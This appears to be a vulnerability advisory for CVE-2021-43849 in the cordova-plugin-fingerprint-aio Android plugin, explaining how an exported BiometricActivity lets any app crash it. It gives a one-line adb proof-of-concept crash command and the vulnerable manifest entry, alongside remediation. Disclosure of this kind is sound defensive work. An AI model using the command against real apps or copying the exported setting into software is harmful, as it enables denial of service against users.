 
# CVE-2021-43849

cordova-plugin-fingerprint-aio is a plugin provides a single and simple interface for accessing fingerprint APIs. **In versions prior to 5.0.1** the exported activity `de.niklasmerz.cordova.biometric.BiometricActivity` can cause the app to crash. This vulnerability occurred because the activity didn't handle the case where it is requested with invalid or empty data which results in a crash.

 *Any third party app can constantly call this activity with no permission. A 3rd party app/attacker using event listener can continually stop the app from working and make the victim unable to open it.*

## PoC (Proof of Concept)

```zsh
adb shell am start -n de.niklasmerz.cordova.biometric/.BiometricActivity -e "" ""
```

**Expected result**: App will crash

## In Depth

The `android:exported` attribute sets whether other apps can launch one of your app's components (activity, service, content provider, or broadcast receiver): If `true` , any app can access the app component. If you set an activity's `android:exported` attribute to `true` , another app can launch it by its exact class name. In this case we can send data from outside to the `BiometricActivity`. Sending **empty data** will cause the application to crash and exploit **Denial of Service(DoS)** vulnerabilities.

### Vulnerable Code

In `AndroidManifest.xml` config file, `android:exported` is set to `true` as follow:

```xml
<activity android:name="de.niklasmerz.cordova.biometric.BiometricActivity" android:theme="@style/TransparentTheme" android:exported="true"/>
```

*The Android Manifest is an XML file containing metadata that describes
your applications information, functionality and requirements to
the Android OS, and the PlayStore.*

## Remediation

Version 5.0.1 of the cordova-plugin-fingerprint-aio doesn't export the activity anymore and is no longer vulnerable.

### Sanitized code

If you want to fix older versions change the attribute `android:exported` of this code snippet in `plugin.xml` to false as below.

```xml
<config-file target="AndroidManifest.xml" parent="application">
      <activity android:name="de.niklasmerz.cordova.biometric.BiometricActivity" android:theme="@style/TransparentTheme" android:exported="false"/>
</config-file>
```

## Reference

[mitre.org | CVE-2021-43849](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43849)

[owasp.org | Denial of Service(DoS)](https://owasp.org/www-community/attacks/Denial_of_Service)
